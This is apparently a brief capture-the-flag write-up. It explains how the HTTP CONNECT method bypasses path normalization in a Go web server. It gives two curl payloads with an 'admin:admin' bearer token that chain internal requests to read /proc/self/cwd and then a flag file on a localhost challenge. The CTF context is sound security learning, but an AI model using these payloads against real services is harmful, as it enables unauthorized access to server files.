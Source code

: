https://github.com/golang/go/blob/9bb97ea047890e900dae04202a231685492c4b18/src/net/http/server.go#L2354-L2364

Abusing http verb connect , we craft payloads like:
which bypasses path normalization:


curl -X CONNECT --path-as-is -H "Authorization: Bearer YWRtaW46YWRtaW4=" "http://localhost:40048/request/http://localhost:40048/link%3Fpath=/proc/self/cwd

to get the folder name and

curl -X CONNECT -H "Authorization: Bearer YWRtaW46YWRtaW4" "http://localhost:40048/request/http://localhost:40048/view/tmp/Zy2l6Qdsfxsb/public/flag.txt"

to get the flag

